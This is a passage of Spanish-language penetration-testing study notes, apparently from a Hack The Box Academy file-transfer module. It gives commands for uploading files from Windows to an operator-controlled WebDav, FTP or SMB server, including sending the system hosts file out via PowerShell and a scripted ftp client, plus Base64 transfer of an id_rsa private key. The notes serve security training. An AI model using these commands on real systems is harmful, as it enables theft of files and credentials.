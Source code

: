 **SMB Uploads con WebDav**
```
#Iniciar servidor WebDav
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

#Listar y subir archivos a WebDav
dir \\192.168.49.128\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\DavWWWRoot\  #Origen por defecto (Si no se especifica se accede a DavWWWRoot)
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.128\sharefolder\
```
**FTP Uploads**
```
#Servidor FTP con escritura
sudo python3 -m pyftpdlib --port 21 --write

#Conexion desde Windows
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts','C:\Windows\System32\drivers\etc\hosts')

#Windows cliente No Interactivo
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
**Solucion prueba**
```
xfreerdp3 /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.114.10:338

#Se crea el servidor SMB y un directorio llamado "share" compartiendo el directorio actual
sudo impacket-smbserver share -smb2support .

#En PowerShell se copia el archivo compartido
copy \\10.10.16.13\share\upload_win.zip

#Luego se extrae el .txt y se ejecuta hasher
hasher upload_win.txt
f458303ea783c224c6b4e7ef7f17eb9d 
```

____________________________________________________________________________________________________________________

## Linux File Transfer Methods

**Base64 Encoding / Decoding**

**Transferencia de archivos pequeños** - Copiando y Pegando en la terminal el payload encodead
```bash
# Verificar hash original
md5sum id_rsa

# Codificar archivo en Base64
cat id_rsa | base64 -w 0; echo

# Decodificar archivo en el host destino
echo -n '<BASE64>' | base64 -d > id_rsa

# Confirmar hash después de la transferencia
md5sum id_rsa
```
